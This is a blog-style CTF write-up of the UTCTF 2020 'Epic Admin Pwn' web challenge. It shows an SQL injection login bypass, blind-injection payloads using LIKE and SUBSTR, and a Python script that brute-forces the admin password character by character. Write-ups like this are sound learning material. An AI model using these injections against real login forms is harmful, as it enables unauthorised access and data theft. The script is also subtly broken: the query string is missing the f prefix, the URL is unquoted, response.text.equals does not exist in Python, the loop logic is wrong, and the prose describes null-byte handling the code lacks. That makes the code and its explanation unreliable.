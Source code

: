 ```yaml
---
title : "UTctf 2020: Epic Admin Pwn"
date : 2020-04-22T00:46:19-06:00
draft : false
author : "JamVie"
tags : ["writeups", "web", "sqli"]
images: ["images/UTCTFscreenshot2.png"]
---
```


I particpated in UTCTF with my team in March 2020, held and operated by the University of Texas [ISSS](https://www.isss.io/). My team and I solved a very fun SQLi-based attack! This challenge helped me to refine my python skills cause the lord knows I needed it, as well as reinforced my knowledge about SQL-based attacks. This is the first web challenge I solved in the CTF, and admittedly the one that I enjoyed the most to do.


Let's Begin!
----

We are presented with a clean and minimal login page. The challenge's description says that "the password is the flag". Well, since this is only a login page, I'd figure to try and get into admin somehow.

{{< image src="/images/UTCTFscreenshot1.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Initial attempts to do some scoping for SQL vulnerabilities didn't do anything. Inputting a single quote ' mark wouldn't show anything useful. So, I went in kinda blind, and did a pretty standard SQL attack: ```admin--``` If there were vulnerable SQL queries to be had, my input would malform the query to only return the entries where the username == admin. 
And it worked! 


{{< image src="/images/UTCTFscreenshot2.png" alt="Login" position="center" style="border-radius: 8px;" >}}


It's a static welcome page, so I didn't get anything useful past learning that the admin's username was, in fact, admin. And the challenge's description told me as such - if I wanted the password, I needed to do something else. 

The fact that I got into admin meant that I malformed the SQL query so that it would ignore any sort of password checking. But, I kinda need some form of password validation in order to get any headstart on what it was. Luckily, SQL utilizes alot of logic-based keywords that lets us essentially guess the password with custom SQL we inject into it. We would want to inject rogue SQL so that the underlying query would look like,

```SQL

admin' AND pass LIKE ('J%')

```

This will return true if the admin's password starts with a J.

While I use the SQL 'LIKE' keyword here, another keyword called "substr" or "substring" exists that I prefer. [From SQL Server Tutorial:](https://www.sqlservertutorial.net/sql-server-string-functions/sql-server-substring-function/)

>The SUBSTRING() extracts a substring with a specified length starting from a location in an input string.


A teammate of mine actually created a script that bruteforced the alphanumerics letter by letter until we printed the password, but I decided to take a shot at creating one myself using python ~~because its about time I actually learn practical python for myself~~:

```python

flag = ""

chars = 'abcdefghijklmnopqrstuvwxyz1234567890{}'

# url here would've been the epic admin pwn site
url = example.com

for index in range(0, 40):
    for char in chars: 
        req = "admin' AND SUBSTR(flag, {index}, 1) = '{char}'--" 
        data = {"username": req, "pass": "JamVieSaysHello"} 
        response = requests.post(url, data)
        if response.text.equals('Welcome, admin!') > 0: 
            flag += char 
            print(flag) 
            continue 
```

The "req" var here is our custom SQL. The idea here is to test out every character against the password's character at the given index. If they match, store it into our buffer array. When we reach the nullbyte character which terminates strings, then we print out the buffer, which should have correctly found the password! 

```
utflag{dual1pa1sp3rf3ct}
```

Note that, we could technically put anything we wanted into the password field - our input to it never gets checked, because we override whatever checking existed for it with our custom SQL. 

There are admittedly faster ways to do this, for example, if you have burpsuite and sqlmap you could save the post request data into a text file and have sqlmap dump the underlying database for you, which should also return the flag. However, creating the script and testing it out was alot of fun! 

Jam